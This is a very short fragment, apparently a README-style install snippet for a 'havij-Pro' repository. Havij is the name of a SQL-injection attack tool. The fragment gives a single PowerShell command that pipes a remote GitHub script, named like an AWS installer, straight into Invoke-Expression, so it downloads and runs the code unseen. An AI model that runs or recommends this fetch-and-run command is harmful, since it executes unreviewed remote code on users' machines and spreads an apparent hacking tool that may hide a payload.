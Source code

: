 # Installation Command
irm https://raw.githubusercontent.com/sahmsec/havij-Pro/main/aws-install.ps1 | iex
